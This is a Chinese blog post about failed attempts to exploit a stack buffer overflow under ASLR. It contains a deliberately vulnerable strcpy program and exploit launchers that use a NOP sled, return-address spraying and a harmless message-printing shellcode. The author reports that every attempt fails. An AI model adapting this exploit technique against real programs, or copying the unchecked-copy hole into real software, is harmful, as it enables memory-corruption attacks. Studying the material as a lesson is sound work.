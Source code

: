 [Bug Hunter]关于stack overflow Lesson III
==========================================

### 本篇意在澄清利用stackoverflow的bug来执行shellcode的可行性
&emsp;&emsp;在前面的博客里我提到过“会给出将stackoverflow的bug和shellcode结合起来的博文”，就我目前的知识水平来说，暂时我还做不到这一点。下面澄清一下做不到的原因：  
&emsp;&emsp;请参考[Address space layout randomization (ASLR)](https://en.wikipedia.org/wiki/Address_space_layout_randomization)，也就是程序运行时，Stack的起始地址对于最高分配给进程的Virtual Memory的值来说，有一个随机的offset，而且每次不同，也很难预测。下面是一个简易的测试程序：
```cpp
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    printf("%s is at %p\n", argv[1], getenv(argv[1]));

    return 0;
}
```
&emsp;&emsp;程序启动的时候，会将所有的环境变量存到Stack上，运行本例子多次，你会发现每次的结果都不一样，而且差距非常大。如图：    

&emsp;&emsp;<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/getenv.png" />  

### 含有stackoverflow的例子程序
```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    return 0;
}
```

### 尝试一
```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

const char shellcode[] = "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x14\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x65\x6c\x6c\x6f\x20\x68\x61\x63\x6b\x69\x6e\x67\x20\x77\x6f\x72\x6c\x64\x0a";

int main(int argc, char **argv) {
    unsigned int i, *ptr, ret, offset = 377;
    char *command, *buffer;
    command = (char *)malloc(200);
    memset(command, 0, 200);

    strcpy(command, "./overflow_shellcode \'");
    buffer = command + strlen(command);

    if (argc > 1)
        offset = atoi(argv[1]);

    ret = (unsigned int)&i - offset;

    for (i = 0; i < 160; i += 4)
        *((unsigned int *)(buffer + i)) = ret;
    memset(buffer, 0x90, 60);
    memcpy(buffer + 60, shellcode, sizeof(shellcode) - 1);
    strcat(command, "\'");

    system(command);
    free(command);

    return 0;
}
```
&emsp;&emsp;显然，本例子成功执行的前提是`fork`的进程和父进程共享一个Stack Base，经测试，显然并不是共享一个Stack Base，新进程有自己随机的Stack Base。

### 尝试二
&emsp;&emsp;将SHELLCODE写到环境变量里去，然后添加非常多的`0x90`即`nop`指令，然后猜测SHEllCODE在Stack上的地址，很显然，失败。

### 尝试三
```cpp
#include <stdio.h>
#include <inttypes.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    char *env = getenv("SHELLCODE");
    uint64_t i, ret;
    ret = uint64_t(env);
    //printf("%c\n", env[0]);
    printf("%p\n", ret);
    char *buffer = (char *)malloc(160);
    for (i = 0; i < 160; i += 8)
        *((uint64_t *)(buffer + i)) = ret;

    execle("./overflow_shellcode", "overflow_shellcode", buffer, 0);
    printf("%p\n", ret);

    free(buffer);

    return 0;
}
```
&emsp;&emsp;不调用`fork`，直接调用`execl`系列函数，测试再次失败，原因很简单，`execl`系列函数会替换当前进程上下文，包括栈，天知道替换之后的栈是哪样的，应该会有一个新的栈偏移，不然本例会成功的。

### 小结
&emsp;&emsp;综上所诉，目前就博主的水平来说，搞不定这个随机栈偏移的问题，当然还是有方法的，只不过博主目前不会，毕竟菜鸡博主。 :-)    

&emsp;&emsp;**Good Luck, Have Fun!!!!!!!!**
